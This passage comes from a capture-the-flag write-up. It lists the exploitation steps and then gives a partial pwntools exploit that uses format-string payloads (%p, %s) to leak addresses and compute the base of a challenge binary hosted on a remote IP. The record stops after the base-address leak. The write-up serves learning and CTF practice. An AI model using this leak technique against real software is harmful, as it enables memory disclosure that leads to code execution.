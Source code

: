 + leak binary base. 
+ leak GOT values. 
+ use the [Libc Databse Search](https://libc.blukat.me/) to find out which libc was used.
+ place system function pointer from libc into `banter`.
+ profit

### Exploit
Since I already done that stuff manually I herby present you with the final exploit with the correct libc used on remote.

```py

from pwn import *
context.log_level = 'INFO'

if args.REMOTE:
    p = remote('45.76.30.75',1337)
else:
    p = process('./chal_patched',env={},stdout=process.PTY, stdin=process.PTY)
    # gdb.attach(p,gdbscript= 'b printf')

elf             = ELF('./chal_patched',checksec=False)
libc            = ELF('./lib/libc.so.6',checksec=False)

printf_off = ((elf.got.printf       - elf.symbols.ptrs)// 8)+1
banter_off = ((elf.symbols.banter   - elf.symbols.ptrs)// 8)+1

s2p = lambda x : u64(x.ljust(8,b'\0'))

def leak_address(off):
    payload = str(printf_off).encode()
    payload+= b' '
    payload+= f'%{off}$p'.encode()
    p.sendlineafter(b'> ',payload)
    p.recvuntil(f'You selected {printf_off}\n'.encode())
    leak = p.recvuntil(b'Select an option')[:-len(b'Select an option')]
    return leak


def leak_string(addr):
    # offset between where the $RSP - the address we place on the stack when calling printf
    off = ((0x00007fffffffdc80 - 0x7fffffffdc38)// 8)+5 

    payload = str(printf_off).encode()
    payload+= b'A'*5
    payload+= f'%{off}$s\n'.encode().ljust(8,b'A')
    payload+= p64(addr)
    
    p.sendlineafter(b'>',payload)

    p.recvuntil(f'You selected {printf_off}\n'.encode())
    p.recvuntil(b'AAAA')
    leak = p.recvline()[:-1]
    return leak


# bruteforced after a few tries to find a valid binary address on remote
main_leak_off = ((0x00007fffffffdd98 - 0x7fffffffdc38)//8 + 5)-10   
main = (int(leak_address(main_leak_off),base=16)&(~0xfff))+0x1000*-1


elf.address = main
log.success(f"bin_base: 0x{elf.address:012x}")

```